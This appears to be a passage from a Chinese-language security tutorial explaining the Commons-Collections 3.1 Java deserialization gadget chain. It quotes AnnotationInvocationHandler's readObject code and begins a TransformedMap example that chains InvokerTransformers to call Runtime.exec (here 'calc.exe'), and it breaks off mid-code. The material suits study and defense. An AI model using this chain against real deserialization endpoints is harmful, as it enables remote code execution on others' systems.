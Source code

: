 ```java
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }
        Map<String, Class<?>> memberTypes = annotationType.memberTypes();
        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                        value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                            new AnnotationTypeMismatchExceptionProxy(
                                    value.getClass() + "[" + value + "]").setMember(
                                    annotationType.members().get(name)));
                }
            }
        }
    }
}
```

我们可以看到 AnnotationInvocationHandler是一个Serializable且重写了readObject方法的类，并且在readObject方法中遍历了自身中类型为Map 的memberValues属性,并对其中的Entry对象执行setValue操作。

因此我们只需要寻找一个Map类,该类的特点是其中的Entry在SetValue的时候会执行额外的程序将这个Map类作为参数构建一个AnnotationInvocationHandler对象，并序列化

在进行包装之前，我们先来认识几个Commons-collections 3.1中的工具类

### TransformedMap

TransformedMap是Commons-collections 3.1提供的一个工具类，用来包装一个Map对象，并且在该对象的Entry的Key或者Value进行改变的时候,对该Key和Value进行Transformer提供的转换操作

```java
public class TransformedMapTest {

 public static void main(String[] args) {
     new TransformedMapTest().run();
 }

 public void run(){
     Map map=new HashMap();
     map.put("key","value");
     //调用目标对象的toString方法
     String command="calc.exe";
     final String[] execArgs = new String[] { command };
     final Transformer[] transformers = new Transformer[] {
             new ConstantTransformer(Runtime.class),
             new InvokerTransformer("getMethod", new Class[] {
                     String.class, Class[].class }, new Object[] {
                     "getRuntime", new Class[0] }),
             new InvokerTransformer("invoke", new Class[] {
                     Object.class, Object[].class }, new Object[] {
                     null, new Object[0] }),
             new InvokerTransformer("exec",
                     new Class[] { String.class }, execArgs)
     };
     Transformer transformer=new ChainedTransformer(transformers);
     Map<String, Object> transformedMap=TransformedMap.decorate(map,null,transformer);
```